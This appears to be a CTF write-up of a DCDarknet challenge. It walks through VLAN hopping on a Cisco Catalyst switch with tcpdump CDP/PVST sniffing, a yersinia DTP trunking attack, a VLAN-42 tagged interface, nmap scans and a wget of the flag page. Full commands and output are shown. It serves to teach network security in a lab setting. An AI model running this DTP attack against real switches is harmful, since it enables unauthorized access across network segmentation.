


The goal of this challenge was to show that VLAN's are not secure barriers. THere are several ways to break out of a VLAN, and this challenge was not designed to show all of the different ways. This post will only deal with the most basic attack (DTP). I may write a post with the other attack vectors later on if there is enough demand.
At the DCDarknet table, there were several network cables laid out. Each of these cables were connected to a Cisco Catalyst 3750 on VLAN 1. There was one hint given for this challenge:
Does Google know the name of the answer to life?
I will list out the steps with a brief description, if there is enough demand, then I will write another post later, that expounds upon each step in greater detail.
I am a CLI junkie, so all of these instructions are written for the CLI. In theory there are GUI apps that can do the same things, but they are not referenced here.
- Connect a network cable to your computer (duh).
-
We need to identify all of the different networks. To do this we will poll for the Native VLAN ID and the Management Addresses from the Cisco Discovery Protocol (CDP) packets using tcpdump.
tcpdump -v -n -i ens9 ‘ether[20:2] == 0x2000’ | grep -e ‘Management’ -e ‘Native VLAN’
You should let this run for several minutes to track down all of the different CDP packets which contain all of the other networks.
![A screenshot of a CLI window with the following: Haxor$ sudo tcpdump -v -n -i ens9 'ether[20:2] == 0x2000' | grep -e 'Management' -e 'Native VLAN' tcpdump: listening on ens9, link-type EN10MB (Ethernet), capture size 262144 bytes VTP Management Domain (0x09), value length: 9 bytes: 'DCDarkVTP' Native VLAN ID 90x0a), value length: 2 bytes: 1 Management Address (0x16), value length: 14 bytes: IPv4 (1) 192.168.1.254 VTP Management Domain (0x09), value length: 9 bytes: 'DCDarkVTP' Native VLAN ID (0x0a), value length: 2 bytes: 1 Management Address (0x16), value length: 14 bytes: IPv4 (1) 192.168.1.254 VTP Management Domain (0x09), value length: 9 bytes: 'DCDarkVTP' Native VLAN ID (0x0a), value length: 2 bytes: 1 Management Addresses (0x16), value length: 13 bytes: IPv4 (1) 8.8.4.4 ^C5 packets captured 5 packets received by filter 0 packets dropped by kernel 104 packets dropped by interface](pictures/cdp.png "A screenshot of a CLI window with the following: Haxor$ sudo tcpdump -v -n -i ens9 'ether[20:2] == 0x2000' | grep -e 'Management' -e 'Native VLAN' tcpdump: listening on ens9, link-type EN10MB (Ethernet), capture size 262144 bytes VTP Management Domain (0x09), value length: 9 bytes: 'DCDarkVTP' Native VLAN ID 90x0a), value length: 2 bytes: 1 Management Address (0x16), value length: 14 bytes: IPv4 (1) 192.168.1.254 VTP Management Domain (0x09), value length: 9 bytes: 'DCDarkVTP' Native VLAN ID (0x0a), value length: 2 bytes: 1 Management Address (0x16), value length: 14 bytes: IPv4 (1) 192.168.1.254 VTP Management Domain (0x09), value length: 9 bytes: 'DCDarkVTP' Native VLAN ID (0x0a), value length: 2 bytes: 1 Management Addresses (0x16), value length: 13 bytes: IPv4 (1) 8.8.4.4 ^C5 packets captured 5 packets received by filter 0 packets dropped by kernel 104 packets dropped by interface")
-
In this case we have identified 2 different IP addresses 192.168.1.254 and 8.8.4.4 with a native VLAN ID of 1. Each of these IP addresses is a Default Gateway (DG) of a VLAN.
Remember the hint? 8.8.4.4 is a Google Name Server (DNS). -
Now we can make the assumption that 192.168.1.254 is the network on VLAN 1 based on the extra CDP packets. To verify this we need to assign an IP address on this network to our computer.
ip addr add 192.168.1.18/16 dev ens9
Then if you are able to ping the DG then you had guessed correctly
ping 192.168.1.254 -c 4
![A screenshot of a CLI window with the following: Haxor$ sudo ip addr add 192.168.1.18/16 dev ens9 Haxor$ ping 192.168.1.254 -c 4 PING 192.168.1.254 (192.168.1.254) 56(84) bytes of data. 64 bytes from 192.168.1.254: icmp_seq=1 ttl=255 time=1.03 ms 64 bytes from 192.168.1.254: icmp_seq=2 ttl=255 time=1.35 ms 64 bytes from 192.168.1.254: icmp_seq=3 ttl=255 time=6.87 ms 64 bytes from 192.168.1.254: icmp_seq=4 ttl=255 time=0.494 ms --- 192.168.1.254 ping stastitics --- 4 packets transmitted, 4 received, 0% packet loss, time 3004ms rtt min/avg/max/mdev = 0.494/2.439/6.874/2.597 ms](pictures/vlan1_check.png "A screenshot of a CLI window with the following: Haxor$ sudo ip addr add 192.168.1.18/16 dev ens9 Haxor$ ping 192.168.1.254 -c 4 PING 192.168.1.254 (192.168.1.254) 56(84) bytes of data. 64 bytes from 192.168.1.254: icmp_seq=1 ttl=255 time=1.03 ms 64 bytes from 192.168.1.254: icmp_seq=2 ttl=255 time=1.35 ms 64 bytes from 192.168.1.254: icmp_seq=3 ttl=255 time=6.87 ms 64 bytes from 192.168.1.254: icmp_seq=4 ttl=255 time=0.494 ms --- 192.168.1.254 ping stastitics --- 4 packets transmitted, 4 received, 0% packet loss, time 3004ms rtt min/avg/max/mdev = 0.494/2.439/6.874/2.597 ms")
-
Since we know that we are on VLAN 1, there is a good chance that we can perform a DTP (Dynamic Trunk Protocol) attack. To do this we will use a tool called Yersinia.
yersinia dtp -attack 1 -interface ens9 -
Now that the Access Port has been flipped to a Trunk Port we can run a scan to pull up a list of VLAN's on the switch. To do this we will poll PVST+ packets using tcpdump.
tcpdump -v -e -i ens9 | grep ‘vlan’
 01:00:0c:cc:cc:cd (oui Unknown), ethertype 902.1Q (0x8100), length 68: vlan 42, p 7, LLC, dsap SNAP 90xaa) Individual, ssap SNAP (0xaa) Command, ctrl 0x03: oui Cisco (0x0000000c), pid PVST (0x010b): STP 802.1d, Config, Flags [none], bridge-id 802a.00:18:19:2d:87:00.8054, length 42 ^C139 packets captured 140 packets received by filter 0 packetes dropped by kernel 3 packets dropped by interface" alt="A screenshot of a CLI window with the following: Haxor$ sudo tcpdump -v -e -i ens9 | grep 'vlan' tcpdump: listening on ens9, link-type EN10MB (Ethernet), capture size 262144 bytes 20:45:56.018571 00:18:19:2d:87:1e (oui Unknown) > 01:00:0c:cc:cc:cd (oui Unknown), ethertype 902.1Q (0x8100), length 68: vlan 42, p 7, LLC, dsap SNAP 90xaa) Individual, ssap SNAP (0xaa) Command, ctrl 0x03: oui Cisco (0x0000000c), pid PVST (0x010b): STP 802.1d, Config, Flags [none], bridge-id 802a.00:18:19:2d:87:00.8054, length 42 ^C139 packets captured 140 packets received by filter 0 packetes dropped by kernel 3 packets dropped by interface">
-
These packets will list another VLAN. In this case it is VLAN 42.
Note that 42 is the answer to life, remember the hint?
So now we know that we are on VLAN 1 and we need to get to VLAN 42. -
We now need to tag our traffic with VLAN ID 42, to do that we create a link (alias) interface with that VLAN ID.
ip link add link ens9 name ens9.42 type vlan id 42
Assign an IP address to your computer in the same network as the DG you pulled from the CDP packet from VLAN 42.
ip addr add 8.8.1.18/16 dev ens9.42

-
Now that you are on VLAN 42 with an IP address we need to find all of the other devices.
nmap -sn -e ens9.42 8.8.1.1/16
You will notice that only 2 IP addresses came up, 8.8.4.4 and 8.8.8.8. Since we know that 8.8.4.4 is the DG of this network, 8.8.8.8 must be the device we are trying to locate.
 at 2016-09-03 20:50 PDT Nmap scan report for 8.8.18 Host is up (0.00010s latency). Nmap scan report for 8.8.4.4 Host is up (0.0089s latency). Nmap scan report for 8.8.8.8 Host is up (0.0075s latency), Nmap done: 65536 IP address (3 hosts up) scanned in 4461.64 seconds")
-
Once you know the IP of the device on VLAN 42 you run a simple port scan to learn that port 80 (HTTP) is open.
nmap -e ens9.42 8.8.8.8
 at 2016-09-03 22:11 PDT Nmap scan report for 8.8.8.8 Host is up (0.0047s latency), Not shown: 998 closed ports PORT STATE SERVICE 22/tcp open ssh 80/tcp open http Nmap done: 1 IP address (1 host up) scanned in 13.11 seconds")
-
To pull the secret code from the website you use wget.
wget http://8.8.8.8 -
Then a simple cat of index.html and the code should be pretty obvious.
cat index.html
Here is the switch config if you want to try this at home.
I do plan on revamping this challenge for next year. I will add several additional layers, some easy, some more complicated. So be sure to read up on your network hacks.